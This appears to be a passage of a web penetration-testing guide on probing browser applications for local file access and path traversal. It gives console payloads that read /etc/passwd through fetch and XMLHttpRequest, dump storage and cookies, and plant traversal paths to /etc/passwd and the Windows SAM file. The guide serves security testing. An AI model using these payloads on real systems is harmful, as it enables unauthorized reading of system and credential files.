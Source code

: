 ```scss
fetch("file:///etc/passwd")
```

If this succeeds, the application allows **local file access**.

#### Modify Fetch Requests in Console

If you find:

```scss
fetch("/files/user-data.json")
```

Test modifying it:

```scss
fetch("/files/../../../../etc/passwd")
```

#### Use `XMLHttpRequest` to Fetch Local Files

```javascript
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "../../../../etc/passwd", false);
xhttp.send();
console.log(xhttp.responseText);
```

### Testing Web Storage (LocalStorage, SessionStorage)

#### Check for Stored File Paths

In **DevTools Console (****`F12`****)**, run:

```javascript
console.log(localStorage);
console.log(sessionStorage);
console.log(document.cookie);
```

#### Modify Stored Paths

If a file path is stored in `localStorage`, modify it:

```javascript
localStorage.setItem('configPath', '../../../../etc/passwd');
sessionStorage.setItem('userFile', '../../../../windows/system32/config/SAM');
```

Then **refresh the page** and check if the file loads.

### Exploiting Weak Browser Security Policies

#### Check Content Security Policy (CSP)

Open **DevTools (****`F12`****) → Network → Headers** Look for:

```csharp
Content-Security-Policy: default-src 'self'
```
